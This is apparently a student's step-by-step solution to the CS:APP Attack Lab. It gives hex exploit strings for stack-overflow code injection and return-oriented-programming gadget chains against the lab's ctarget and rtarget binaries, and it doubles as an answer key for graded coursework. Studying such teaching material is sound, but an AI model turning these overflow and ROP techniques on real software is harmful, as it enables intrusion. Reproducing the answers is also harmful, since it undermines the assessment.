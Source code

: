 # Solving Attack Lab Step by Step

## Part I: Code Injection Attacks

### Level 1

Easy to find that BUFFER_SIZE = 40.

When calling a function, the `callq` instruction leads to pushing the addr of next instruction of caller into stack. When function is finished and reach the `retq` instruction, it will retrieve the top of the stack to get the caller's next instruction addr and jump to it. So our purpose is to overwrite that addr to make instruction flow redirect to `touch1()` function.

Below lies the entry point addr of *touch* functions:

touch1() addr --> 00000000004017c0

touch2() addr --> 00000000004017ec

touch3() addr --> 00000000004018fa

Make a new file called `ctarget_1.txt` and its contents shown below:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40
```

Use the cmd below to pass it to the hex2raw so that we can get the binary input to the `ctarget` program:

```shell
./hex2raw < ctarget_1.txt | ./ctarget -q
```

> -q parameter for run this program locally instead of using server, since self-study student has no server for this.



### Level 2

We need to think up some code for pushing entry point of `touch2()` into stack so that we can  `return` and get to it. To execute our code, we shall use method of solving Level 1, to overwrite the addr to the entry of our code.

Since there's a 40-byte length array, we can make full use of it to contain our assembly code as below (ctarget_2.s file):

```assembly
pushq $0x4017ec				# entry point of touch2()
movq $0x59b997fa, %rdi		# cookie
ret
```

Use gdb and set a breakpoint within `getbuf` function, it is easy to find that the beginning addr of buf array is `0x5561dc78`.

Use cmds below to assemble the code and disassemble it to get the encoded instruction bytecode:

```shell
gcc -c ctarget_2.s
objdump -d ctarget_2.o > ctarget_2.d
```

Content of ctarget_2.d:

```assembly
ctarget_2.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 ec 17 40 00       	pushq  $0x4017ec
   5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   c:	c3                   	retq   
```

So the input file ctarget_2.txt should be:

```
68 ec 17 40 00 48 c7 c7
fa 97 b9 59 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55
```



### Level 3

Put the string representation of cookie "0x59b997fa" at an address. To prevent it from overwriting by stack allocation through calling functions, we should put it at`getbuf()` caller's stack space, which is `test()`'s stack space. It is easy to get the the addr through breakpoint: `0x5561dca8`.

Translate the string "59b997fa" into ascii we have:

```
35 39 62 39 39 37 66 61 00
```

The 00 represents the terminator of the string.

The code we use is similar to Level 2, the only difference is the addr we moved to `%rdi`:

```assembly
mov $0x5561dca8, %rdi	# addr of cookie's string representation
push $0x4018fa			# entry point of touch3()
retq
```

Content of ctarget_3.d:

```assembly
ctarget_3.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
```

So the input file ctarget_2.txt should be:

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00
```



## Part II: Return-Oriented Programming

### Level 2

According to the advice, we need 2 gadgets for our task. Before we look for them, we inspect our asm code of Phase 2:

```assembly
pushq $0x4017ec				# entry point of touch2()
movq $0x59b997fa, %rdi		# cookie
ret
```

The key is to move the cookie value into some register. From the third advice, we can try to insert the value in the stack and pop it to some register, and then move from this register to `%rdi`. After that we shall meet `ret`, then just put the `0x4017ec` in the stack, then everything will work as expected.

From gadgets farm, we find two useful function gadgets:

![phase_4_gadgets](./imgs/phase_4_gadgets.png)

58 --> `popq %rax`

After that, it does "90" which is `nop` and then `retq`.

48 89 c6 --> `movq %rax, %rdi`, some like before it does `nop` then `retq`.

So here is our input:

```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00		/* addr of "popq %rax" */
fa 97 b9 59 00 00 00 00		/* cookie value used for "popq %rax" */
c5 19 40 00 00 00 00 00		/* addr of "mov %rax, %rdi" */
ec 17 40 00 00 00 00 00		/* entry addr of touch2() */
```

> comment must be deleted when passed through hex2raw



### Level 3

First we inspect the asm code from Phase 3:

```assembly
mov $0x5561dca8, %rdi	# addr of cookie's string representation
push $0x4018fa			# entry point of touch3()
retq
```

Obviously, the key is to construct the addr leading to cookie's string representation. This string representation must be stored at the stack space above the `touch3()`, otherwise it will be overwritten. To targeting this addr, we need to add some offset to the `%rsp`. So we need 2 values be added and we can control these two values. From the farm we find this gadget satisfy our demand:

```assembly
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq  
```

It means `%rax = %rdi + %rsi`. We can put `%rsp` in either of them and put offset in the other one.

1. mov `%rsp` into some register. From the farm we know that only `%rax` as target is possible. 

   `mov %rsp, %rax` --> 48 89 e0 -->`addval_190`(0x401a03+3=0x401a06) or `setval_350`(0x401aab+2=0x401aad).

2. `mov %rax, %rdi`.
3. `popq %rax`.
4. `movl %eax, %edx`  --> 89 c2 --> `getval_481`(0x4019db+2=0x4019dd).
5. `movl %edx, %ecx` --> 89 d1 --> `getval_159`(0x401a33+1=0x401a34) or `getval_311`(0x401a68+1=0x401a69).
6. `movl %ecx, %esi` --> 89 ce --> `addval_436`(0x401a11+2=0x401a13) or `addval_187`(0x401a25+2=0x401a27).
7. `lea (%rdi,%rsi,1), %rax` --> `add_xy`(0x4019d6).
8. `mov %rax, %rdi`.

Input as below:

```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00		/* addr of "mov %rsp, %rax"
c5 19 40 00 00 00 00 00		/* addr of "mov %rax, %rdi", we get %rsp at here */
cc 19 40 00 00 00 00 00		/* addr of "popq %rax" */
48 00 00 00 00 00 00 00		/* offset = 0x48 for "popq %rax" */
dd 19 40 00 00 00 00 00		/* addr of "movl %eax, %edx" */
34 1a 40 00 00 00 00 00		/* addr of "movl %edx, %ecx" */
13 1a 40 00 00 00 00 00		/* addr of "movl %ecx, %esi" */
d6 19 40 00 00 00 00 00		/* addr of "lea (%rdi,%rsi,1), %rax" */
c5 19 40 00 00 00 00 00		/* addr of "mov %rax, %rdi" */
fa 18 40 00 00 00 00 00		/* entry addr of touch3() */
35 39 62 39 39 37 66 61		/* cookie string representation */
00
```

> comment must be deleted when passed through hex2raw

